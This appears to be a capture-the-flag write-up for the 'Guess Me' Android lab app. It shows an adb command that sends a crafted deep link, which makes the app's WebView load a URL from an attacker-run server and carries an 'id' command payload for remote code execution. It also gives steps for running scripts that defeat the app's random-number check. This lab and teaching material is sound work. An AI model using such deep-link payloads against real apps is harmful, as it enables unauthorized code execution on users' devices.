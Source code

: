 # Writeup for Guess me challenge.

## Objective
Exploit a Deep Link Vulnerability for Remote Code Execution: 
Your mission is to manipulate the deep link functionality in the "Guess Me" Android application, 
allowing you to execute remote code and gain unauthorized access.

## PoC RCE

First, run the Python script: `python3 server.py`

Once the server is up and running you should send the following payload:
`adb shell am start -a android.intent.category.BROWSABLE -n com.mobilehackinglab.guessme/.WebviewActivity -d "mhl://mobilehackinglab/?url=http://{YOUR_SERVER_IP}/search?Time=\'id\'%26q=mobilehackinglab.com"`

## Random + timestamp

This is a very inconsistent way to bypass the Random function.
To run the script first compile the Java code.
`javac -Xlint newGuessRandom.java`

Then run the script:
`java -cp . newGuessRandom.java 2>/dev/nul`

It will take some time to find, but it works!

## Random + binary search
This way is a very consistent way of finding the guess number using a different approach.

To run the script, first compile the java code.
`javac -Xlint newSuperGuessRandom.java`

To run the script:
`java -cp . newSuperGuessRandom.java 2>/dev/null`
